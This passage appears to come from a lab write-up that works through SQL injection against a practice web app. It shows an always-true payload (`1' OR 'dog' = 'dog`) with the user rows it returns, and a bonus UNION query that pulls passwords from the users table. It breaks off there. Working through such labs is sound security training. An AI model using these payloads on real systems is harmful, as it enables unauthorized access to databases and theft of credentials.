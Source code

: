     - This closely matches the results from Step 2 of the SQL script run on DB Fiddle, except for the id field. The application is designed to return the payload entered in this field:
      
      first_name | last_name 
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith

3. Use another always true payload to test  the unintended use of the web application.

    - The third query was `select first_name, last_name from users where user_id = '1' OR 'dog' = 'dog'`.
      
    - Since the payload is all the data between the first and last single quote, the payload is `1' OR 'dog' = 'dog`.
      
    - The results will be as follows:     
      
      ```
      ID: 1' OR 'dog' = 'dog
      First name: admin
      Surname: admin

      ID: 1' OR 'dog' = 'dog
      First name: Gordon
      Surname: Brown

      ID: 1' OR 'dog' = 'dog
      First name: Hack
      Surname: Me

      ID: 1' OR 'dog' = 'dog
      First name: Pablo
      Surname: Picasso

      ID: 1' OR 'dog' = 'dog
      First name: Bob
      Surname: Smith
      ```
  
    - The results match the script from DB Fiddle:   
  
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   
          
4. **Bonus:** Use a payload to pull data from hidden fields. 

    - The query was `select first_name, last_name from users where user_id = '1' UNION select first_name, password from users where '1' = '1'`.
     